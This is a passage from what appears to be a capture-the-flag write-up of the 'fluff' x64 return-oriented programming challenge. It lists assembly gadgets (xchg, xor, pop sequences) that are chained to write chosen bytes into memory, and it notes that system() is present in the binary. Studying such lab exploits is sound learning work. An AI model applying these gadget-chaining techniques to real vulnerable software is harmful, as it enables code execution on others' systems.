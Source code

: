 ```x64asm
    ret
StepFour:  
    xchg    r11, r10 ; the xchg operation performs an exchange between the R11 and R10 registers respectively
    pop     r15
    mov     r11d, 0x602050 ; 'P `'
    ret
```

##### 2. Load bytes, that we wish to write, into the R11 register
The previous sequence to write to R10, uses the R11 register to transfer bytes.  
Writing to R11 will follow the same sequence without StepFour:
```x64asm
StepOne:
    pop r12 ; load value on stack into R12
    pop r13
    pop r14
    pop r15
    ret
StepTwo:  
    xor r11, r11 ; zero out the R11 register
    pop r14
    mov edi, data_start
    ret
StepThree:  
    xor r11, r12 ; the xor operation will xor the contents of R12 into R11
    pop r12
    mov r13d, 0x604060 ; '`@`'
    ret
```

#### Locate the system() library function
In the executable, the system() library function is already present.

<a href="/assets/img/2020-02-17-Fluff-x64/system-lib-func.png"><img src="/assets/img/2020-02-17-Fluff-x64/system-lib-func.png"></a>
  